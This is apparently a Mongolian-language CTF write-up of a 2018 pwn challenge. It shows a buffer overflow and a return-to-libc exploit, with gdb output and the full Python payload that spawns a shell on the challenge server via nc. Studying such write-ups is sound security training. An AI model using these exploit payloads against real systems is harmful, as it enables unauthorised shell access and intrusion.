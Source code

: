 # Haruulzangi 2018 Round 1 : not used 

**Category:** Pwn
**Points:** 964
**Solves:** 5
**Description:**

>nc 218.100.84.106 9006 дээр хавсралт дээрх elf ажиллаж байна.
>
>link [notused](notused)
>
>link [notused.c](notused.c)
>
>--
>reamb


## Write-up

Өгөгдсөн `notused` binary файлыг ажилуулвал доорхи үр дүн гарж байв. 
```
[root@reamb home]# ./notused
[+] Feed me more!!!
hello
[+] zuv baildaa
[root@reamb home]#
```
 notused.c дээр тухайн програмын бүрэн код хуулагдсан байна. Source код дээрээс харвал дээрх мөрүүд нь хамгийн сонирхолтой хэсгүүд юм.
```
char * n0t_us3d = "/bin/bash";

int    call_me() {
        return system("/bin/date");
}


``` 
Энд хэзээ ч дуудагдахгүй n0t_us3d хувьсагчын утгыг system() дотор дуудаж чадвал бид shell ажиллуулж чадах юм. 

Юны түрүүнд binary файл дээр бүффер -ийн хэмжээг тооцолж үзье. үүнийг уламжиллалт аргаар ольё. 
```
[root@reamb home]# python -c 'print "A"*128' | ./notused
[+] Feed me more!!!
[+] zuv baildaa
Segmentation fault
```
128 байт аас эхлээд buffer дүүрч алдаа өгч байна. энийг souce code дээрээс  `char buf[128];` -ээр олж болно. Бид stack-г дүүргэн буцах Return address  дээр call_me хаяг байршуулж ажилуулах гэж үзье. 

>StackFrame нь  Stack(128 bytes) + ebp(4 bytes) + return adrress(4 bytes)  байдаг билээ. 

Үүнийг gdb дээр мөн шалгалт хийж тогтооё.

```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"CCCC"+"DDDD"' > rea.txt
[root@reamb home]#
```
```

[root@reamb home]# gdb ./notused
GNU gdb (GDB) Red Hat Enterprise Linux 7.6.1-110.el7
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/notused...done.
gdb-peda$ run < rea.txt
Starting program: /home/./notused < rea.txt
[+] Feed me more!!!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x8d
EBX: 0xf7fca000 --> 0x1c6da8
ECX: 0xffffd584 ('A' <repeats 128 times>, "BBBBCCCCDDDD\n\206\004\b\024")
EDX: 0x100
ESI: 0x0
EDI: 0x0
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd60c ("DDDD\n\206\004\b\024")
EIP: 0x43434343 ('CCCC')
EFLAGS: 0x10203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xffffd60c ("DDDD\n\206\004\b\024")
0004| 0xffffd610 --> 0x804860a (<_fini+6>:      (bad))
0008| 0xffffd614 --> 0x14
0012| 0xffffd618 --> 0x0
0016| 0xffffd61c --> 0xf7e1d1b3 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0020| 0xffffd620 --> 0x1
0024| 0xffffd624 --> 0xffffd6b4 --> 0xffffd7fb ("/home/./notused")
0028| 0xffffd628 --> 0xffffd6bc --> 0xffffd80b ("XDG_SESSION_ID=504")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-222.el7.i686
```

Эндээс программ нь 0x43434343 буюу CCCC хаяг дээр кодыг ажилуулах гээд алдаа зааж байгаа нь харагдаж байна.  тэгвэл бид CCCC -н хаягыг call_me() ээр сольж бичиж үзье. call_me() ийн хаягыг эхэлж ольё.

```
[root@reamb home]# objdump -D ./notused |grep call_me
080484dd <call_me>:
```

фүнкцийн санах ой дээрх хаяг олдлоо. үүнийг stack руу бичих тул little indian буюу урвуугаар бичнэ.
``` 
[root@rea home]# python -c 'print "A"*128 + "BBBB"+"\xdd\x84\x04\x08"' | ./notused
[+] Feed me more!!!
Mon Oct  8 17:13:01 +08 2018
```

бидний хүссэн call_me -г дуудаж чадлаа. Одоо харин system(/bin/bash) хэрхэн дуудах вэ? 

Үүнд бид `[Return-to-Libc](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf)` аргыг ашиглах юм.  Үндсэн санаа нь memory дээр байрших фүнкц утгуудыг дахин дуудаж өөрт ашигтай хувьлбарт оруулан ашиглана. 

Top of stack         |    EBP    | EIP                         | Dummy return addr |    address of /bin/sh string

-------------------------------------------------------------------------------------------------------------------
AAAAAAAAAAAAAA       |   BBBB    |   addr of system function   |     DUMM          |   address of /bin/sh string
                     |           |                             |                   |                          

Эндээс бидэнд   `system`  фүнкцийн хаяг болон `/bin/sh` string ийн хаягууд хэрэг болож байна.

```
[root@reamb home]# objdump -D notused |grep system
08048390 <system@plt>:
 80484ea:       e8 a1 fe ff ff          call   8048390 <system@plt>
```
эндээс `system` фүнкцийн хаягийг олж авлаа. `/bin/sh` ийг харин энгийн debugger дээрээс харж болно. 


![notused.png](notused.png)



эндээс нийлүүлээд бичвэл. 
```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"' | ./notused
[+] Feed me more!!!
Segmentation fault
```

ажиллахгүй байгаа мэт байна. тэхдээ system(/bin/sh) ажиллангуута тэр доороо хаагдаж байгаа юм. энийг аргалах амархан арга нь bash дээр `command; cat` хэмээн аргалах боломжтой юм. 



```
[root@reamb home]# (python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"'; cat )| ./notused
[+] Feed me more!!!
date
Mon Oct  8 18:15:22 +08 2018
whoami
root

```
Hurray! ажиллаж байна. 

одоо бид flag авахын тулд сервер рүү хүсэлтийг явуулна. 

```
[root@HZ1-dashboard home]# (python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"'; cat )| nc 218.100.84.106 9006
[+] Feed me more!!!
ls
chall
flag
pow.py
pwn
cat flag
HZ{r3t2l1b_w1ns!!}
```

flag `HZ{r3t2l1b_w1ns!!}`



## Other write-ups and resources

* none yet
